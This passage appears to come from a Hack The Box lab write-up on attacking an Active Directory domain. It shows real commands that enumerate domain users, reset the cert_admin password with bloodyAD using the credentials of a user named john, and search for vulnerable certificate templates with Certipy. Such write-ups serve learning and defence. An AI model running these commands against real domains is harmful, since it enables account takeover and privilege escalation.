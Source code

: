 ```bash
net user /domain
```

![Password Reset via bloodyAD](picture49.png)

#### 6) Reset cert_admin password from the attacker host

Used bloodyAD to set a new password for cert_admin:

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u john -p 'john123' set password cert_admin "admin123"
```

![Password Reset cert_admin](picture50.png)

---

### ADCS Exploitation
With `cert_admin`, we enumerated vulnerable certificate templates using **Certipy**.

```bash
certipy-ad find -u cert_admin -p admin123 -dc-ip 10.10.11.72 --vulnerable
```

![Certipy Find](picture52.png)
